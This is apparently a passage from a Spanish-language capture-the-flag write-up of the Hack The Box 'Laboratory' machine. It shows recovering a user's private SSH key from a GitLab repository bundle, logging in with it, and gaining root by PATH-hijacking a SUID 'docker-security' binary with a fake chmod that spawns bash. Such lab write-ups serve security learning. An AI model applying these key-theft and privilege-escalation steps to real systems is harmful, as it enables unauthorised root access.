git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ git log
error: cannot run less: No such file or directory
commit 5bd1925e5f8ce5ab97c5eef8a1c2cac3c778873f (HEAD -> master, origin/master, origin/HEAD)
Author: Dexter McPherson <dexter@laboratory.htb>
Date:   Sun Jul 5 17:11:26 2020 +0200

    Initial commit
```

Bien, pues despues de ojear los archivos no tenemos nada relevante, solo confirmamos el correo de `dexter` :P

#### ¬ securedocker

```
* dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 2 git git   40 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
git@git:/dev/shm/test/repositories/@hashed/19/58$ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle 
Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
Receiving objects: 100% (10/10), done.
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 4 git git  120 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle

git@git:/dev/shm/test/repositories/@hashed/19/58$ cd 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ ls -la
total 8
drwxr-xr-x 4 git git 120 Jan 31 23:09 .
drwxr-xr-x 3 git git  80 Jan 31 22:45 ..
drwxr-xr-x 7 git git 240 Jan 31 23:09 .git
-rw-r--r-- 1 git git  37 Jan 31 23:09 README.md
-rw-r--r-- 1 git git 382 Jan 31 23:09 create_gitlab.sh
drwxr-xr-x 3 git git 100 Jan 31 23:09 dexter
```

En `create_gitlab.sh` tenemos la estructura del contenedor en el que estamos:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cat create_gitlab.sh 
#!/bin/bash
mkdir /srv/gitlab
export GITLAB_HOME=/srv/gitlab
docker run --detach \
  --hostname git.laboratory.htb \
  --publish 60443:443 --publish 60080:80 --publish 60022:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  gitlab/gitlab-ce:latest
```

Si revisamos la carpeta `/dexter` obtenemos info muy valiosa:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cd dexter/
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la
total 8
drwxr-xr-x 3 git git 100 Jan 31 23:09 .
drwxr-xr-x 4 git git 120 Jan 31 23:09 ..
drwxr-xr-x 2 git git  80 Jan 31 23:09 .ssh
-rw-r--r-- 1 git git 102 Jan 31 23:09 recipe.url
-rw-r--r-- 1 git git 160 Jan 31 23:09 todo.txt
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la .ssh/
total 8
drwxr-xr-x 2 git git   80 Jan 31 23:09 .
drwxr-xr-x 3 git git  100 Jan 31 23:09 ..
-rw-r--r-- 1 git git  568 Jan 31 23:09 authorized_keys
-rw-r--r-- 1 git git 2601 Jan 31 23:09 id_rsa
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat .ssh/id_rsa
```

![298bash_revshGIT_bundle_idRSA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshGIT_bundle_idRSA.png)

> Las llaves de `SSH` siempre son generadas en pares con una llamada llave privada y otra llamada llave pública. La llave privada solo es conocida por el usuario y debe ser guardada con cuidado. [ArchLinux.org](https://wiki.archlinux.org/index.php/SSH_keys_(Espa%C3%B1ol)#Informacion_preliminar)

¿Pero por qué con "cuidado"?

Como bien dice [ehu.eus](https://www.ehu.eus/ehusfera/ghym/2010/10/15/identificacion-automatica-en-ssh-usando-claves-rsa/) en su web, "Cuando tenemos que conectarnos habitualmente a un servidor Linux mediante SSH puede resultar muy tedioso tener que escribir la contraseña en cada sesión." Por lo que muchas veces las llaves SSH nos "facilitan" la vida, donde la llave pública (`id_rsa.pub`) le indica a la máquina que nos permita ingresar sin contraseña, pero solo si estamos agregados (`id_rsa.pub`) en el archivo `authorized_keys`. 

Digamos que en este caso deberíamos estar en el archivo `/home/dexter/.ssh/authorized_keys`, para conectarnos como `dexter` en el sistema... En el caso de `root` si estuvieramos en su archivo (../../rutaXD), pues si, nos conectaríamos como `root`. (Pero a esto no le podemos sacar provecho en este momento).

Pero donde la llave `id_rsa` le indica al sistema que prácticamente estamos proveyendo una contraseña (aunque ni tengamos indicios de como sea) del usuario al que le extraimos la llave, en este caso `dexter`..

Muy bien, tenemos la llave de acceso al sistema (`id_rsa`) presuntamente como el usuario `dexter`, probemos:

La guardamos en un archivo, lo llamaré `id_dexter`, le otorgamos permisos: `chmod 600 id_dexter` y ejecutamos mediante `SSH`:

```bash
–» ssh dexter@10.10.10.216 -i id_dexter
dexter@laboratory:~$ id
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
dexter@laboratory:~$ ls
user.txt
dexter@laboratory:~$ 
```

Perfecto, estamos dentro como `dexter`... Nice, pero antes de seguir, revisemos si los archivos del repositorio tienen algo más:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat todo.txt
# DONE: Secure docker for regular users
### DONE: Automate docker security on startup
# TODO: Look into "docker compose"
# TODO: Permanently ban DeeDee from lab
```

Jmm, `look into "docker compose"` me llama la atención, no se si sea relevante, pero para tenerlo en cuenta (: El otro archivo tiene una URL:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat recipe.url 
[InternetShortcut]
URL=https://www.seriouseats.com/recipes/2016/04/french-omelette-cheese-recipe.html
```

Nada relevante. Enumeremos ahora como `dexter` dentro de la máquina...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando por los archivos relacionados con el grupo `dexter` obtenemos esto:

```bash
dexter@laboratory:~$ find / -group dexter 2>/dev/null | grep -v proc
/usr/local/bin/docker-security
/home/dexter
/home/dexter/.local
/home/dexter/.local/share
/home/dexter/.local/share/nano
/home/dexter/.local/share/nano/search_history
/home/dexter/.profile
/home/dexter/.gnupg
/home/dexter/.gnupg/pubring.kbx
/home/dexter/.gnupg/trustdb.gpg
/home/dexter/.cache
/home/dexter/.cache/motd.legal-displayed
/home/dexter/.ssh
/home/dexter/user.txt
/home/dexter/.bashrc
/home/dexter/.bash_logout
dexter@laboratory:~$
```

* `/usr/local/bin/docker-security`.

Si vemos como está definido el archivo tenemos claro que debemos usarlo para escalar privilegios:

![298bash_revshDEX_dockerSec_lsLA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_lsLA.png)

Tenemos un objeto creado por el usuario `root` y que cuando lo ejecutemos estaremos ejecutándolo como `root` no como `dexter` :O los famosos `SUID (Set User ID)`.

> SUID? ... it’s a way in UNIX-like operating systems of running a command as another user without providing credentials. [pentestpartners.com/exploiting-suid-executables](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/).

Perfectoooooo... Pero ejecutándolo no tenemos ningún output, jmmm, que tipo de archivo es?:

```bash
dexter@laboratory:~$ file /usr/local/bin/docker-security
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped
```

Un binario, inicialmente en internet no encontramos nada relacionado con él, probemos a ver si vemos alguna cadena de texto interesante. La herramienta `strings` no está instalada, intentemos con `cat`: 

```bash
dexter@laboratory:~$ cat /usr/local/bin/docker-security
ELF>p@9@8
...
...
H0zRx{UHH=H=]AWL=O,AVIAUIATAUH-@,SL)CHtLLDAHH9u[]A\A]A^A_chmod 700 /usr/bin/dockerchmod 660 /var/run/docker.sock<(X
    Rx
...
...
```

Vemos que presuntamente está cambiando los permisos de los archivos `/usr/bin/docker` y `/var/run/docker.sock`. También podemos verlo más claro con `ltrace` (nos ayuda a ver las llamadas que hace un programa sobre el sistema):

```bash
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                              = -1
setgid(0)                                                                                                              = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
+++ exited (status 0) +++
```

Acá está más claro (creo yo :P), intenta cambiar los permisos, pero no permite la acción... Pero hay algo curioso, está llamando a `docker` por su ruta absoluta (`/usr/bin/docker`) y al archivo `docker.sock` también por su ruta completa (`/var/run/docker.sock`), pero `chmod` está siendo llamado en general...

Lo que pasa ahí es que cuando ejecutamos `chmod`, el sistema va a buscar el binario en todas las rutas del **PATH** (`echo $PATH`), ira recorriendo cada directorio y donde primero lo encuentre, será ese el que ejecute... Sabiendo esto, podemos aprovecharnos para hacer un `PATH Hijacking`, en el que crearemos un archivo llamado `chmod`, en su contenido le indicamos que nos genere una `Shell`, modificaremos el **PATH** para que si o si encuentre primero nuestro binario y lo ejecute. Consiguiendo así una Shell como el usuario administrador del sistema (`root`). Prendámosle fuego:

* Más info sobre `PATH Hijacking`. - [hackingarticles.in/linux-privesc-using-path-variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

...

#### ¬ Creamos el archivo `chmod`

```bash
dexter@laboratory:/dev/shm$ echo '#!/bin/bash' > chmod
dexter@laboratory:/dev/shm$ which bash
/usr/bin/bash
#Con esta linea obtendremos una `bash`.
dexter@laboratory:/dev/shm$ echo '/usr/bin/bash' >> chmod 

#Otorgamos permisos de ejecución.
dexter@laboratory:/dev/shm$ chmod +x chmod 

#Validamos.
dexter@laboratory:/dev/shm$ cat chmod 
#!/bin/bash
/usr/bin/bash
dexter@laboratory:/dev/shm$ 
```

Si lo probamos con `dexter` pasaría esto:

```bash
dexter@laboratory:/dev/shm$ /bin/sh
$ ./chmod
dexter@laboratory:/dev/shm$ 
```

#### ¬ Modificamos la variable `PATH`.

```bash
dexter@laboratory:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin

#La guardamos en otra variable por si algo.
dexter@laboratory:/dev/shm$ old_path=$PATH

#Le indicamos donde esta nuestro binario, esa ruta quedara de primero, en mi caso `/dev/shm`.
dexter@laboratory:/dev/shm$ export PATH=/dev/shm:$PATH

#La nueva variable `PATH`.
dexter@laboratory:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:/dev/shm$
```

Perfecto, ahora simplemente nos quedaría ejecutar el binario `/usr/local/bin/docker-security`.

#### ¬ Ejecutar el `PATH Hijacking`.

![298bash_revshDEX_dockerSec_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_rootSH.png)

Opa, si señor, somos `root` ツ Solo nos quedaría ver las flags:

![298flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298flags.png)

...

Y hemos acabado paaaaaaaaaarce.e 

Me gusto la máquina, mientras veía como jugar con los archivos `.bundle` me pareció que eso si debe ser muy real, a mucha gente se le debe colar/olvidar/dar-igual el archivo `id_rsa`. Jajaj o pues espero que no :P

Me encanta hacer `PATH Hijacking` así que eso también me subió mucho más el ánimo por la máquina...

Esto es todo por ahora, muchas gracias por pasarte y leer y nada, a seguir rompiendo todo ♥